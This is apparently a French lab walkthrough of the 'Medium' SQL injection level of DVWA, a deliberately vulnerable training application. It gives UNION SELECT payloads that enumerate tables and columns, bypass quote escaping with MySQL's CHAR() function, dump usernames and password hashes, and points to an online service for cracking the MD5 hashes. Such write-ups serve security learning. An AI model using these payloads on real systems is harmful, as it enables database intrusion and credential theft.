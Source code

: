 # Niveau "Medium"

Le formulaire est légèrement modifié ici puisque l'application présente non plus un champ de type `<input>` mais une liste de sélection `<select>` :

![](../../../../.gitbook/assets/01cdc18d716ae4bddce7d1c64bb83075.png)

Pour un soucis de simplicité, j'utilise ici l'extension Web Developer (possible via Burp également) qui va convertir ce nouveau formulaire en champ de type `<input>` :

![](../../../../.gitbook/assets/50601a1b929aae8bcc75f6023ff5fc6d.png)

Je tente d'injecter ma caractère spécial `"'"` afin de générer une erreur SQL :

![](../../../../.gitbook/assets/0af6ed1e681ffc6f5b9b95c97ca44859.png)

L'erreur m'informe sur la présence d'une protection car le caractère `"'"` est échappé (via le caractère `"\"`). De plus, l'erreur m'indique qu'il s'agit sans doute d'une injection de type numérique et non plus de type String (nombre de `"'"` entourant notre donnée).

Sans reprendre toutes les étapes de reconnaissance (déjà effectuées pour le niveau "Low"), voici l'exploitation de l'injection :

```sql
1 UNION SELET 1,2
```

![](../../../../.gitbook/assets/8a1a58636b34849d9a72d55aedb3d7a3.png)

L'échappement effectué par l'application est un peu embêtant car il m'empêche d'effectuer ma clause `WHERE` :&#x20;

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = 'dvwa' -- 
```

![](../../../../.gitbook/assets/064b4c7ce96c1e4813c22f82ea99e670.png)

Afin de contourner cette limitation je peux, soit supprimer la clause, ce qui aura pour conséquence de retourner une liste de toutes les tables des différentes bases, ou alors, utiliser la fonction `CHAR()` de MySQL :

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/4bdb391ab3998433c70c6425147d293f.png)

Maintenant que je peux contourner l'échappement en place, la suite est facile :

```sql
6 UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/8004e892184bbee82544170bd286f0c0.png)

Puis finalement :

```sql
6 UNION SELECT user,password FROM dvwa.users
```

![](../../../../.gitbook/assets/d564f4efc9dd1d64a60832cbd563ab3d.png)

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](<../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7 (1).png>)
